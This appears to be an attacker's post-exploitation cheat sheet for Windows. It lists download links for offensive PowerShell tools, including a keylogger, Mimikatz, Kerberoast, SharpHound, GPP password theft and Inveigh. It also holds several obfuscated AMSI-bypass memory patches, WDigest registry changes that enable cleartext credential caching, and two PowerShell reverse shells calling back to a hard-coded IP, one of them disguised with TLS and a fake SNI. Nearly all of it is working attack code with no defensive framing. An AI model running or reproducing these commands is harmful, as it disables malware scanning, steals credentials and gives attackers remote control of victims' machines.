 https://raw.githubusercontent.com/lazywinadmin/PowerShell/refs/heads/master/TOOL-Start-KeyLogger/Start-KeyLogger.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/key.txt

https://raw.githubusercontent.com/gangstanthony/PowerShell/refs/heads/master/Get-Clipboard.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/clip.txt

https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/kerb.txt

https://raw.githubusercontent.com/BloodHoundAD/BloodHound/refs/heads/master/Collectors/SharpHound.ps1

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/blood.txt

https://raw.githubusercontent.com/vinicius-batistella/Rumo/refs/heads/main/gpp.txt

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Exfiltration/Get-GPPPassword.ps1

https://github.com/vinicius-batistella/Rumo/raw/refs/heads/main/catz.txt

https://github.com/vinicius-batistella/Rumo/raw/refs/heads/main/Invoke-Mimikatz.ps1

https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/refs/heads/master/Inveigh.ps1

==============================================================================================================================

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

==============================================================================================================================

reg query HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential

reg add HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

==============================================================================================================================

$c = ‘t’
$Win32 = @”
using System.Runtime.InteropServices;
using System;
public class Win32 {
[DllImport(“kernel32”)]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport(“kernel32”)]
public static extern IntPtr LoadLibrary(string name);
[DllImport(“kernel32”)]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
“@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = ‘VirtualProtec’
[Win32]::(‘{0}{1}’ -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)

==============================================================================================================================

$kizax = @"
using System;
using System.Runtime.InteropServices;
public class kizax {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr yjnqcb, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $kizax

$rykogwu = [kizax]::LoadLibrary("$(('àm'+'sî'+'.d'+'ll').noRMaLiZe([CHAr]([BYte]0x46)+[ChAr]([BYTE]0x6f)+[chAR]([BYTe]0x72)+[Char](109*8/8)+[chaR](68*31/31)) -replace [cHaR](92+76-76)+[cHaR]([byTE]0x70)+[cHar](107+16)+[chAr]([BYtE]0x4d)+[char]([BytE]0x6e)+[cHAr]([byTe]0x7d))")
$iyslea = [kizax]::GetProcAddress($rykogwu, "$(('ÃmsîScân'+'Buffer').normaliZe([ChAr]([bYTe]0x46)+[CHaR]([byte]0x6f)+[chAR]([BYTE]0x72)+[cHar]([byte]0x6d)+[chaR]([byTe]0x44)) -replace [char]([bYTe]0x5c)+[char](112*56/56)+[CHAR](123)+[CHAr](75+2)+[char](94+16)+[ChAR]([ByTE]0x7d))")
$p = 0
[kizax]::VirtualProtect($iyslea, [uint32]5, 0x40, [ref]$p)
$aapt = "0xB8"
$qkwf = "0x57"
$snxi = "0x00"
$wnan = "0x07"
$nchj = "0x80"
$yywa = "0xC3"
$estof = [Byte[]] ($aapt,$qkwf,$snxi,$wnan,+$nchj,+$yywa)
[System.Runtime.InteropServices.Marshal]::Copy($estof, 0, $iyslea, 6)

==============================================================================================================================

$teste = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils').GetField('am'+'siInitFailed','NonPublic,Static')
$teste.SetValue($null,$true)

==============================================================================================================================

$x=51;$a=[Ref].Assembly;$y=$x*1000;$b=$a.GetTypes();$z=$y-32;$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like '*siUt*'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};};$x=$z;$e=$c.GetFields('NonPublic,Static');$y=$x-2;$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like '*siCo*'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};};$z=324;$h=$g.GetValue($null);$x=$y-2;[IntPtr]$i=$h;$z=$x+2;[Int32[]]$j=@(0);$y=$z;[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1);

==============================================================================================================================

powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('52.54.121.107', 443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"

==============================================================================================================================

$sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient = New-Object Net.Sockets.TCPClient('52.54.121.107', 443);$NetworkStream = $TCPClient.GetStream();$SslStream = New-Object Net.Security.SslStream($NetworkStream,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$sslProtocols,$false);if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) {$SslStream.Close();exit}$StreamWriter = New-Object IO.StreamWriter($SslStream);function WriteToStream ($String) {[byte[]]$script:Buffer = New-Object System.Byte[] 4096 ;$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()};WriteToStream '';while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()

==============================================================================================================================

$x=51
$a=[Ref].Assembly
$y=$x*1000
$b=$a.GetTypes()
$z=$y-32
$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like 'siUt'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};}
$x=$z
$e=$c.GetFields('NonPublic,Static')
$y=$x-2
$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like 'siCo'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};}
$z=324
$h=$g.GetValue($null)
$x=$y-2
[IntPtr]$i=$h
$z=$x+2
[Int32[]]$j=@(0)
$y=$z
[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1)

